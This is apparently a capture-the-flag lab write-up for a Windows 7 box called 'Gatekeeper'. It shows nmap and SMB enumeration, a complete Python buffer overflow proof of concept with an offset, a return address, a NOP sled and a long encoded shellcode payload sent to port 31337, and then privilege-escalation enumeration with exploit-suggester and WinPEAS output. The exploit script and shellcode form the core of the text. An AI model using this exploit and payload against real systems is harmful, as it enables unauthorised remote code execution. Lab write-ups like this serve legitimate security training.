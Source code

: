 # Gatekeeper

## Recon

There not much for an introduction on this one. The description mentions passing through the gatekeeper and there's fire on the other side.

### Scanning
#### NMAP
```bash
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 125 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
31337/tcp open  Elite?       syn-ack ttl 125
| fingerprint-strings: 
|   GetRequest: 
|     Hello GET / HTTP/1.0
|_    Hello
49152/tcp open  unknown      syn-ack ttl 125
49153/tcp open  unknown      syn-ack ttl 125
49154/tcp open  unknown      syn-ack ttl 125
49155/tcp open  unknown      syn-ack ttl 125
49161/tcp open  unknown      syn-ack ttl 125
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.92%I=9%D=2/11%Time=62072C3C%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,24,"Hello\x20GET\x20/\x20HTTP/1\.0\r!!!\nHello\x20\r!!!\n");
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (95%), Microsoft Windows 7 SP1 (95%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (94%)
```

#### SMBmap
```bash
[+] Guest session       IP: 10.10.79.126:139    Name: 10.10.79.126
        Disk                                                    Permissions      Comment
        ----                                                    -----------      -------
        ADMIN$                                                  NO ACCESSRemote Admin
        C$                                                      NO ACCESSDefault share
        IPC$                                                    NO ACCESSRemote IPC
        Users                                                   READ ONLY
        .\Users\*
        dw--w--w--                0 Thu May 14 20:57:08 2020    .
        dw--w--w--                0 Thu May 14 20:57:08 2020    ..
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Default
        fr--r--r--              174 Tue Apr 21 22:18:13 2020    desktop.ini
        dr--r--r--                0 Thu May 14 20:58:07 2020    Share
        .\Users\Default\*
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    .
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    AppData
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Desktop
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Documents
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Downloads
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Favorites
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Links
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Music
        fr--r--r--           262144 Tue Apr 21 22:18:13 2020    NTUSER.DAT
        fr--r--r--             1024 Tue Apr 21 22:18:13 2020    NTUSER.DAT.LOG
        fr--r--r--           189440 Tue Apr 21 22:18:13 2020    NTUSER.DAT.LOG1
        fr--r--r--                0 Tue Apr 21 22:18:13 2020    NTUSER.DAT.LOG2
        fr--r--r--            65536 Tue Apr 21 22:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
        fr--r--r--           524288 Tue Apr 21 22:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
        fr--r--r--           524288 Tue Apr 21 22:18:13 2020    NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000002.regtrans-ms
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Pictures
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Saved Games
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Videos
        .\Users\Default\AppData\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Local
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Roaming
        .\Users\Default\AppData\Local\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Microsoft
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Temp
        .\Users\Default\AppData\Local\Microsoft\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Windows
        .\Users\Default\AppData\Local\Microsoft\Windows\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    GameExplorer
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    History
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Temporary Internet Files
        .\Users\Default\AppData\Roaming\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Media Center Programs
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Microsoft
        .\Users\Default\AppData\Roaming\Microsoft\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Internet Explorer
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Windows
        .\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Quick Launch
        .\Users\Default\AppData\Roaming\Microsoft\Windows\*
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    .
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    ..
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Cookies
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Network Shortcuts
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Printer Shortcuts
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Recent
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    SendTo
        dw--w--w--                0 Sun Apr 19 14:51:00 2020    Start Menu
        dr--r--r--                0 Sun Apr 19 14:51:00 2020    Templates
        .\Users\Share\*
        dr--r--r--                0 Thu May 14 20:58:07 2020    .
        dr--r--r--                0 Thu May 14 20:58:07 2020    ..
        fr--r--r--            13312 Thu May 14 20:58:07 2020    gatekeeper.exe
```
		
It looks like we found the gatekeeper. Guess I'll get to use the Windows 11 dev box again.

## Exploit development

I moved the file over to my dev box and fired it up in the debugger.
Exploit development went well. No suprises and the script made everything easy.

Here's the completed POC

```python3
#!/usr/bin/env python3

import socket

ip = "192.168.1.104"
port = 31337

prefix = " "
offset = 145
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = "\xba\x43\xa3\x7c\x5b\xdb\xd3\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1\x52\x31\x56\x12\x83\xc6\x04\x03\x15\xad\x9e\xae\x65\x59\xdc\x51\x95\x9a\x81\xd8\x70\xab\x81\xbf\xf1\x9c\x31\xcb\x57\x11\xb9\x99\x43\xa2\xcf\x35\x64\x03\x65\x60\x4b\x94\xd6\x50\xca\x16\x25\x85\x2c\x26\xe6\xd8\x2d\x6f\x1b\x10\x7f\x38\x57\x87\x6f\x4d\x2d\x14\x04\x1d\xa3\x1c\xf9\xd6\xc2\x0d\xac\x6d\x9d\x8d\x4f\xa1\x95\x87\x57\xa6\x90\x5e\xec\x1c\x6e\x61\x24\x6d\x8f\xce\x09\x41\x62\x0e\x4e\x66\x9d\x65\xa6\x94\x20\x7e\x7d\xe6\xfe\x0b\x65\x40\x74\xab\x41\x70\x59\x2a\x02\x7e\x16\x38\x4c\x63\xa9\xed\xe7\x9f\x22\x10\x27\x16\x70\x37\xe3\x72\x22\x56\xb2\xde\x85\x67\xa4\x80\x7a\xc2\xaf\x2d\x6e\x7f\xf2\x39\x43\xb2\x0c\xba\xcb\xc5\x7f\x88\x54\x7e\x17\xa0\x1d\x58\xe0\xc7\x37\x1c\x7e\x36\xb8\x5d\x57\xfd\xec\x0d\xcf\xd4\x8c\xc5\x0f\xd8\x58\x49\x5f\x76\x33\x2a\x0f\x36\xe3\xc2\x45\xb9\xdc\xf3\x66\x13\x75\x99\x9d\xf4\xba\xf6\x9c\x74\x53\x05\x9e\x65\xff\x80\x78\xef\xef\xc4\xd3\x98\x96\x4c\xaf\x39\x56\x5b\xca\x7a\xdc\x68\x2b\x34\x15\x04\x3f\xa1\xd5\x53\x1d\x64\xe9\x49\x09\xea\x78\x16\xc9\x65\x61\x81\x9e\x22\x57\xd8\x4a\xdf\xce\x72\x68\x22\x96\xbd\x28\xf9\x6b\x43\xb1\x8c\xd0\x67\xa1\x48\xd8\x23\x95\x04\x8f\xfd\x43\xe3\x79\x4c\x3d\xbd\xd6\x06\xa9\x38\x15\x99\xaf\x44\x70\x6f\x4f\xf4\x2d\x36\x70\x39\xba\xbe\x09\x27\x5a\x40\xc0\xe3\x7a\xa3\xc0\x19\x13\x7a\x81\xa3\x7e\x7d\x7c\xe7\x86\xfe\x74\x98\x7c\x1e\xfd\x9d\x39\x98\xee\xef\x52\x4d\x10\x43\x52\x44;"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

## Exploit

I created a new payload and adjusted the POC to match the actual target and it worked! I got a shell as the user `natbat`. No special privileges. This is a pretty old version of windows, I could probably find a privesc vulnerability relatively easy.

## Privilege Escalation
### Windows Exploit Suggester

I exfiltrated a copy of `systeminfo` and passed it to `windows-exploit-suggester.py`

Then I used some grep magic to search for privesc.

```bash
cat exploitSuggester | grep Priv | grep -E "^MS..-..."
```


>MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important

>MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important

>MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important

>MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important

>MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important

>MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important


### WinPEAS

I used `WinPEAS.bat` to enumerate from the inside.

> I keep seeing references to firefox on the target. 

> WinPEAS also didn't see patches for many vulnerabilities on this machine.

> The smb `Users` share is at `C:\Users\`

> Hostname: Gatekeeper

>The Firewall is up and running a Standard profile.

> Allowed programs configuration for Standard profile:                               
> Mode     Traffic direction    Name / Program                                             
Enable   Inbound              dostackbufferoverflowgood.exe / C:\users\mayor\desktop\dostackbufferoverflowgood.exe

There seems to be some file `dostackbufferoverflowgood.exe`. I did see one internal port running...

Found 2 ports that are open internally only:

>   UDP    127.0.0.1:1900         *:*                                    2200
  UDP    127.0.0.1:57514        *:*                                    2200

Couldn't set up port forwarding because I'm not admin.



## Beware of fire

It's been a few days since I gained initial access to this box. I was thinking tonight about the clues on this box and was trying to figure out what this meant:

> there's fire on the other side.

There were some ports that were only available on localhost, so in a sense that would be like a firewall. I thought this was the fire. Tonight I really wanted to dig in and see if this "fire on the other side" was a firewall or something else. As I was reviewing the software I remembered Firefox is instlled on this one. I remember seeing a *.lnk file right next to the user.txt.

I think I brushed this off initially as a "too-obvious" rabbit-hole type of trap...but maybe the answer was staring me in the face the whole time.


